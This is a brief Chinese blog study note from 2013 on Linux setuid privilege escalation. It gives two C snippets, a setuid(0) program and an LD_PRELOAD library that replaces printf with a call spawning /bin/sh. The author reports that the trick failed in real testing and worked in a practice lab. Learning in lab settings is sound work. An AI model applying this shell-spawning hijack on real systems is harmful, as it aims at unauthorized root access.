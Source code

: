 title: "linux s属性提权"
date: 2013-06-07 19:56:22
tags:
id: 183
comment: false
categories:
  - 学习笔记
---

<pre class="brush:cpp">root@kali:/home/postgres# cat *.c 
fuck.c
/*gcc -o fuck fuck.c*/
#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
main()
{
	setuid(0);
	setuid(0);
	printf("Congratulations you are root");
}
fuck_printf_tmp.c
/*gcc -shared -o printf.so fuck_printf_tmp.c*/
void printf(char *str)
{
	execl("/bin/sh","sh",0);
}

/*
&amp; LD_PRELOAD=./printf.so
$ export LD_PRELOAD
$ ./fuck
*/</pre>
实战测试并未成功。

[http://exploit-exercises.com/](http://exploit-exercises.com/)练习环境成功。

参考：

[http://www.dankalia.com/tutor/01005/0100501004.htm](http://www.dankalia.com/tutor/01005/0100501004.htm)

&nbsp;
